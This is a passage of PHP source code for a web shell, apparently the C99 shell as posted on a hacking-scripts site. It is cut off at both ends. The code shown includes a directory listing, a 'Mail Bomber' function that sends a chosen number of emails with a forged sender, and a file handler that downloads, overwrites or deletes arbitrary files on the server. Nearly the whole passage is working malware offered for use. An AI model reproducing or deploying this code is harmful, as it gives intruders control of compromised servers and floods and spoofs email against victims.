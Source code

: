     }
  foreach($folders as $folder){echo("&lt;tr&gt;&lt;td&gt;$folder&lt;/td&gt;&lt;td&gt;DIR&lt;/td&gt;&lt;/tr&gt;\n");}
  foreach($files as $file){echo($file);}
  echo("&lt;/table&gt;");
  closedir($handle);
  }
}
function email(){ // Email bomber function
  $times = $_POST['times'];
  $to = $_POST['to'];
  $subject = $_POST['subject'];
  $body = $_POST['body'];
  $from = $_POST['from'];
  style();
  echo("&lt;h2&gt;Mail Bomber&lt;/h2&gt;
  &lt;form method='POST' action='?act=email'&gt;
  &lt;b&gt;Your address:&lt;/b&gt;&lt;br&gt;
  &lt;input name='from' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;Their address:&lt;/b&gt;&lt;br&gt;
  &lt;input name='to' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;Subject:&lt;/b&gt;&lt;br&gt;
  &lt;input name='subject' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;Text:&lt;/b&gt;&lt;br&gt;
  &lt;input name='body' type='text' size='35'&gt;&lt;br&gt;
  &lt;b&gt;How many times:&lt;/b&gt;&lt;br&gt;
  &lt;input name='times' type='text' size='5'&gt;&lt;br&gt;&lt;br&gt;
  &lt;input name='submit' type='submit' value='Submit'&gt;
  &lt;/form&gt;");
  if ($to && $from){for($i=0;$i&lt;$times;$i++){mail("$to", "$subject", "$body", "From: $from");}}
}
function view($filename, $dir){ // File view function
  if($_POST['fileact'] == "Download"){
    header("Content-type: application/octet-stream");
    header("Content-length: ".strlen($_POST['contents']));
    header("Content-disposition: attachment; filename=" . basename($filename) . ";");
    $handle = fopen($filename, "r");
    echo(fread($handle, filesize($filename)));
    die();
  }
  style();
  if($_POST['contents'] && $_POST['fileact'] == "Save"){
    $handle = fopen($filename, 'w');
    fwrite($handle, stripslashes($_POST['contents']));
    fclose($handle);
    echo("Saved file.&lt;br&gt;&lt;br&gt;");
    echo("&lt;a href='?act=view&f=$filename&dir=nullz'&gt;Go back&lt;/a&gt;");
    die();
  }
  elseif($_POST['fileact'] == "Delete"){
    unlink($filename);
    echo("Deleted file.&lt;br&gt;&lt;br&gt;");
    echo("&lt;a href='?act=files'&gt;Go back&lt;/a&gt;");
    die();
  }
  if($dir != "nullz"){ // heh
    $filename = $dir."/".$filename;
  }
  $bad = array("&lt;", "&gt;");
  $good = array("&lt;", "&gt;");
  $file = fopen($filename, 'r');
  $content = fread($file, @filesize($filename));
  echo("&lt;form name='file' method='POST' action='?act=view&dir=$dir&f=$filename'&gt;");
  echo("&lt;textarea style='width:100%; height:92%;' name='contents'&gt;");

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"